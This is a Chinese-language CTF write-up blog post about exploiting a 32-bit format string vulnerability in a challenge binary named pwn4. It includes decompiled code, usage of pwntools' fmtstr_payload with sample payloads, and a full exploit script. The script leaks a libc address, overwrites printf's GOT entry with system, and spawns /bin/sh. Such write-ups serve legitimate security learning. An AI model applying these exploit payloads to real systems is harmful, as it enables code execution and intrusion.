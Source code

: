 ```yaml
---
layout:     post
title:      "32位fmtstr漏洞利用"
subtitle:   "记一32位格式化字符串漏洞利用"
date:       2018-09-01 12:00:00
author:     "Chris"
catalog: true
tags:
    - Pwn
    - 笔记
 
---
```



## 0x00 代码分析

1，检查保护

```python
[*] '/home/chris/Pwn/pwn4'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
 只开了NX

2，使用IDA分析程序流程

main 函数分析

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [esp+0h] [ebp-88h]

  puts("please login first");
  fflush(stdout);
  login();
  if ( login_flag )
  {
    printf("welcome~%s,the present for first meet~%p\n", &name, &buf);
    puts("do you have something say to me~");
    fflush(stdout);
    if ( read(0, &buf, 0x80u) < 0 )
    {
      puts("read error");
      exit(0);
    }
    printf(&buf);
  }
  else
  {
    puts("please login first!");
    login();
  }
  return 0;
}
```

login 函数分析

```c
int login()
{
  puts("your name:");
  fflush(stdout);
  if ( read(0, &name, 0x20u) < 0 )
  {
    puts("read error");
    exit(0);
  }
  login_flag = 1;
  return puts("logined!");
}
```
程序定义了一个buf[88]的数组，首先让输入你的名字，然后再打印出刚才输入的名字和buf的栈地址，然后再让你输入一个字符串，打印出这个字符串。


## 0x01 漏洞分析与利用

首先分析输入name的地方，name的地址在bss段，不在栈中无法溢出。输入buf的地方，buf虽然在栈中，大小为`ebp-88h`，但是输入的地方`read(0, &buf, 0x80u)`，长度不能够溢出。明显`printf(&buf);`存在格式化字符串漏洞。


很明显的格式化字符串漏洞了，执行一个任意地址泄露和任意地址写（泄露printf函数的plt.got表内地址，往main函数ret地址写一个main函数地址，回去二次执行程序流程）。因为前面泄露了地址，程序提供了libc库，算出system函数实际地址，第二次就往printf函数的plt.got表写入system函数地址，同时改写返回地址再次执行程序流程。最后printf（&system("/bin/sh")）拿到shell。

## 0X02 fmtstr_payload介绍

这里介绍一个pwntools自带的格式化字符串任意地址写的函数：**fmtstr_payload**

`fmtstr_payload（offset，writes，numbwritten = 0，write_size ='byte' ）`

使用给定参数创建有效负载。它可以为32位或64位架构生成有效负载。addr的大小取自`context.bits`

参数：

* offset（int） - 您控制的第一个格式化程序的偏移量
* 字典（dict） - 被写入地址对应->写入的数据，可多个对应{addr: value, addr2: value2}
* numbwritten（int） - printf函数已写入的字节数
* write_size（str） - 必须是byte，short或int。告诉您是否要逐字节写入，短按short或int（hhn，hn或n）

例子：

```nasm
>>> context.clear(arch = 'amd64')
>>> print repr(fmtstr_payload(1, {0x0: 0x1337babe}, write_size='int'))
'\x00\x00\x00\x00\x00\x00\x00\x00\x04\x00\x00\x00\x00\x00\x00\x00%322419374c%1$n%3972547906c%2$n'
>>> print repr(fmtstr_payload(1, {0x0: 0x1337babe}, write_size='short'))
'\x00\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x04\x00\x00\x00\x00\x00\x00\x00\x06\x00\x00\x00\x00\x00\x00\x00%47774c%1$hn%22649c%2$hn%60617c%3$hn%4$hn'
>>> print repr(fmtstr_payload(1, {0x0: 0x1337babe}, write_size='byte'))
'\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00\x00\x00\x00\x00\x04\x00\x00\x00\x00\x00\x00\x00\x05\x00\x00\x00\x00\x00\x00\x00\x06\x00\x00\x00\x00\x00\x00\x00\x07\x00\x00\x00\x00\x00\x00\x00%126c%1$hhn%252c%2$hhn%125c%3$hhn%220c%4$hhn%237c%5$hhn%6$hhn%7$hhn%8$hhn'
>>> context.clear(arch = 'i386')
>>> print repr(fmtstr_payload(1, {0x0: 0x1337babe}, write_size='int'))
'\x00\x00\x00\x00%322419386c%1$n'
>>> print repr(fmtstr_payload(1, {0x0: 0x1337babe}, write_size='short'))
'\x00\x00\x00\x00\x02\x00\x00\x00%47798c%1$hn%22649c%2$hn'
>>> print repr(fmtstr_payload(1, {0x0: 0x1337babe}, write_size='byte'))
'\x00\x00\x00\x00\x01\x00\x00\x00\x02\x00\x00\x00\x03\x00\x00\x00%174c%1$hhn%252c%2$hhn%125c%3$hhn%220c%4$hhn'
```

## 0X03 完整利用过程

* 构造`p32(put_got)+"%4$s"`，同时这里还要往返回地址写一个main函数地址。找到`&buf+9c`偏移为ret地址，继续构造`fmtstr_payload(6,{ret:main},12)`，参数6为4偏移加上泄露字符串的长度2DWORD,参数12为%s泄露出的地址和额外数据长度+4，因为%s以`'\0'`结尾,不同libc库环境可能这个参数数值不同，可自行根据判断调整。
* 成功泄露地址后算出system函数地址，第二次执行流程利用，同理`fmtstr_payload(4,{printf_got:system,ret+4:main},0,'short')+";/bin/sh;#"`往ret+4写是因为，第二次执行main函数后ret地址往后挪了一位。然后往printf函数的plt.got表写入system函数地址，同时改写返回地址再次执行程序流程。不同的是这里的payload最后要写入个`;/bin/sh;#`因为第三次执行流程的`printf(&buf)`buf地址为第二次的buf地址偏一点点，用了参数截断，执行/bin/sh。




## 0x04 脚本

```python
from pwn import *
context.log_level="debug"
context.arch="i386"
p = process("./pwn4")

p.recvuntil("name:")
p.sendline("A"*0x10)
p.recvuntil("meet~")

stack = int(p.recvuntil("\n",drop=True),16)

print hex(stack)
ret = stack + 0x9c
print hex(ret)
put_got = 0x804A018
pay = p32(put_got)+"%4$s"

pay2 = fmtstr_payload(6,{ret:0x804856E},12)
pay = pay + pay2
p.recvuntil("g say to me~")

p.sendline(pay)
print p.recvuntil("\x18\xa0\x04\x08")
puts = u32(p.recv(4))

libc = ELF("/lib/i386-linux-gnu/libc-2.19.so")

system = puts - libc.symbols['puts'] + libc.symbols['system']

sleep(2)
p.send("A"*0x20)

print hex(system)

pay = fmtstr_payload(4,{0x804a010:system,ret+4:0x0804856e},0,'short')+";/bin/sh;#"

p.send(pay)

sleep(2)
p.recvuntil("#")
sleep(1)
p.sendline("BBBBBB")

p.interactive()
```

## 0x05 总结

其实这道题有个很简单的解法，直接往返回地址写rop，泄露地址，执行system，全部rop就搞定了

大致就这样 :

`exp1=fmtstr_payload(4,{ret:put_plt,ret+4:main,ret+8:put_got},0,'short')`

`exp2=fmtstr_payload(4,{ret:system_addr,ret+4:任意,ret+8:name_addr('/bin/sh')},0,'short')`

>[文件下载](https://github.com/yxshyj/project/tree/master/pwn/fmtstr%E5%88%A9%E7%94%A8%E4%B9%8Bpwn4)


